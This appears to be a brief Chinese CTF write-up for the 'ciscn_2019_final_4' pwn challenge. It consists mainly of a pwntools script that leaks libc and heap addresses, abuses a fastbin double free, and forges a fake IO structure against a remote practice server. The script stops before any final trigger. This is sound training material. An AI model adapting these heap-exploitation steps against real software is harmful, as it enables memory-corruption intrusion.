 # exp
可能有些凌乱因为边做边改....发现有问题了就在有问题的基础上改回来...没有倒回去...所以有可能很多很奇怪的操作...

```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size,c="Y"):
	cmd(1)
	p.sendlineafter("?\n",str(size))
	p.sendafter("?\n",c)
def free(idx):
	cmd(2)
	p.sendlineafter("?\n",str(idx))
def show(idx):
	cmd(3)
	p.sendlineafter("?\n",str(idx))
context.log_level='debug'
context.arch='amd64'
one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
one = one_gadget[2]
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p=remote("buuoj.cn",25942)
#p=process('./pwn')
#raw_input()
name="A"*0x1
p.sendlineafter("? \n",name)
add(0x88,p64(0x71)*17)#0
add(0x68,p64(0x21)*5+p64(0x71))#1
add(0x68,p64(0x21)*13)#2
add(1)#
free(0)
show(0)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b78-0x7ffff7a0d000)

libc.address=base
add(0x68,p64(0x71)*13)#4
free(1)
free(2)
show(2)
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-0x90
free(1)
syscall=0x00000000000bc375+base
fio=heap+0x70
fake =p64(fio+0x8)+p64(syscall)
fake =fake.ljust(0x20,'\x00')+p64(1)
fake =fake.ljust(0x38,'\x00')+p64(fio+0xd8-0x10)+p64(0x47b75+base)
add(0x68,p64(heap+0x60))#5
add(0x68,fake)#6 0x100
add(0x68)#7 0x90
add(0x68,flat(0,0x61))#8 0x60 overlap
add(0x78,p64(0x71)*15)#9 FAKE IO




free(5)
free(4)
free(5)
add(0x68,p64(fio-0x10))#10
add(0x68)#11
add(0x68)#12

```

[1]: https://buuoj.cn/challenges#ciscn_2019_final_4
[2]: https://github.com/n132/Watermalon/tree/master/CISCN-2019/finnal/ciscn_2019_final_4
[3]: https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ptrace.h.html
[4]: https://www.cnblogs.com/axiong/p/6184638.html
[5]: http://blog.leanote.com/post/xp0int/%5BPwn%5D-Pwn7-cpt.shao